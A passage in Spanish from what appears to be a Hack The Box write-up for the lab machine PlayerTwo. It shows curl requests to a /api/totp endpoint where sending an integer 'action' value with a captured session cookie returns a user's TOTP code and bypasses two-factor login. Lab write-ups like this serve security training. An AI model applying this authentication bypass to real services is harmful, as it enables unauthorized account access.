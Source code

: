 Tenía la ruta ```/totp``` que me devolvía ```Invalid Sesion```. Pero ahora tengo una cookie de sesión que puedo arrastrar

```null
curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=cvq4ahhg0kk3ok6c6i90ff9s4q" | jq
{
  "error": "Invalid action"
}
```

Al solicitar una acción, modifico el ```Content-Type``` a ```application/json``` para enviar data por POST en este formato

```null
curl -s -X POST http://product.player2.htb/api/totp -H "Content-Type: application/json" -H "Cookie: PHPSESSID=cvq4ahhg0kk3ok6c6i90ff9s4q" -d '{"action":"test"}' | jq
{
  "error": "Missing parameters"
}
```

Puede que el error se deba al tipo de dato, así que modifico el valor por un dígito entero

```null
curl -s -X POST http://product.player2.htb/api/totp -H "Content-Type: application/json" -H "Cookie: PHPSESSID=cvq4ahhg0kk3ok6c6i90ff9s4q" -d '{"action":0}' | jq
{
  "user": "jkr",
  "code": "29389234823423"
}
```

Teniendo el código ya puedo acceder a la interfaz

<img src="/writeups/assets/img/PlayerTwo-htb/5.png" alt="">

Puedo descargar la documentación desde ```http://product.player2.htb/protobs.pdf```. El PDF se ve así:
